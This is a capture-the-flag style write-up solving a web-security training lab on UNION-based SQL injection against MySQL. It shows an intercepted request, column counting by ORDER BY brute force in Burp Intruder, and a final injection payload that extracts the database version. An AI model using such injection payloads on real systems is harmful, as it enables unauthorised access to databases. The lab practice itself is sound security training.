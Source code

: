 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - querying the database type and version on MySQL and Microsoft
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 19.05.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SQL injection (`UNION based`)

---


## 🔍 Request interception

> SQL injection vulnerability contains in the product category filter

![product_filter](./screenshots/product_filter.png)

![product_filter_url](./screenshots/product_filter_url.png)

> Intercepting the request to select a product category in `BurpSuite`:

```http

GET /filter?category=Gifts HTTP/2
Host: 0a1a00d1047b73138077173a00980007.web-security-academy.net
Cookie: session=SaUB5JpFe2P3T6L7xxbQtPNEiDabjuH3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a00d1047b73138077173a00980007.web-security-academy.net/filter?category=Gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> To solve this lab, you need to output a string containing the version of the `MySQL` database. To do this I need to execute a query like `select @@version`:

![mysql_version](./screenshots/mysql_version.png)

> I will use the `UNION` operator in the sql query to combine two `SELECT` queries to extract data.

> To perform this attack, I will first determine the number of columns. I will automate the process using brute force via `BurpSuite`.
> We will generate a text document with a sequence of numbers from 1 to 10 (for example) via the `seq` tool:

```bash

seq 1 10 | sudo tee nums.txt

```

> Results:

```bash

cat nums.txt

1
2
3
4
5
6
7
8
9
10

```

> I send a request to `Intruder` and start iterating over the numeric parameter of the `oreder by` operator:

![bruteforce](./screenshots/bruteforce.png)

![bruteforce_payload](./screenshots/bruteforce_payload.png)

> As a result, I get a server error in response to the value `3`:

![bruteforce_results](./screenshots/bruteforce_results.png)

> Ok. Accordingly, the number of columns in the table is `2`. As I mentioned above, to display information about the version of the `MySQL` database, you need to execute a query like `select @@version`.
> Using the `UNION` operator, I combine the results of two `select` queries. Also, do not forget that the number of columns is `2` and, accordingly, a stub in the form of `null` is needed, since the `UNION` operator
> requires that the number of columns in the two `select` queries match.

> **For reference**: `UNION` is an SQL operator that combines the result rows from two `SELECT` queries, provided that the number and types of columns in them match. This
> allows us to substitute our values ​​into the result set and try to display them on the page.

> The final injection will be as follows:

```bash

GET /filter?category=' UNION SELECT @@version, null FROM dual--+ HTTP/2

```

> Result:

![db_version](./screenshots/db_version.png)

> Getting information about the `MysQL Database version`.

![solved_lab](./screenshots/solved_lab.png)
